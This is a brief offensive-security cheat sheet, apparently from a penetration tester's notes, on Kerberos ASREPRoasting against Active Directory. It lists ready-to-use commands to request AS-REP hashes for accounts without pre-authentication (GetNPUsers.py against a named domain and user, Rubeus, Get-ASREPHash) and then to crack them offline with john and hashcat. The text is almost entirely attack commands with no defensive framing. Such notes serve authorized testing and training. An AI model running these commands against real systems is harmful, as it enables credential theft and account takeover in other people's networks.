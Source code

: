 # Kerberos Attacks

## ASREPRoast 
If accounts do not require kerberos pre-authentication, the tool GetNPUsers.py can be used to do ASREPRoasting:   
`GetNPUsers.py -request am.mt.mtnet/us30-zherosheroes:`   
On Windows:   
`.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`   
`Get-ASREPHash -Username someuser123 -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)`   
Cracking:   
`john --wordlist=passwords_kerb.txt hashes.asreproast`   
`hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt`   
